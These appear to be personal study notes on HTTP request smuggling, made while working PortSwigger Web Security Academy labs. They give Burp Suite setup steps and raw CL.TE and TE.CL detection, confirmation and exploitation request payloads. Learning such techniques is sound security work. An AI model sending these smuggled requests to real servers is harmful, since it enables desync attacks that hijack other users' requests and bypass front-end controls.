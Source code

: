 ____

https://www.youtube.com/watch?v=4S5fkKJ4SM4&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&ab_channel=JarnoTimmermans

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans

Repeater --> uncheck Update Content-Length 

![[Pasted image 20240815102523.png]]

![[Pasted image 20240815101327.png]]

![[Pasted image 20240815101531.png]]
# CL.TE
Detect

```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

send normal request

# TE.CL

Detect

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Confirm

```
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```

send normal request

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0


```


56 --> ![[Pasted image 20240815110132.png]]

CL1 ->  ![[Pasted image 20240815110239.png]]

CL2 -> ![[Pasted image 20240815110330.png]]

5+1 = 6




